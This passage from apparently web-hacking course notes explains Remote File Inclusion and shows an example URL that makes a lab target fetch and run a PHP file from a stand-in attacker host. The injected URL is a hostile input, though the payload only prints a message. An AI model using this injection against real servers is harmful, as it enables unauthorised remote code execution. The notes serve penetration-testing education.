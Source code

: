 

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

Sensitive Information Disclosure
Cross-site Scripting (XSS)
Denial of Service (DoS)


An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

### RFI.PNG

![App Screenshot](https://github.com/rohit00712/Jr-Penetration-Tester/blob/main/Introducing%20To%20Web%20Hacking/5.%20File%20Inclusion/images/RFI.PNG)

### RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where `cmd.txt` contains a printing message  `Hello THM`.

```PHP
<?PHP echo "Hello THM"; ?>
```
First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.
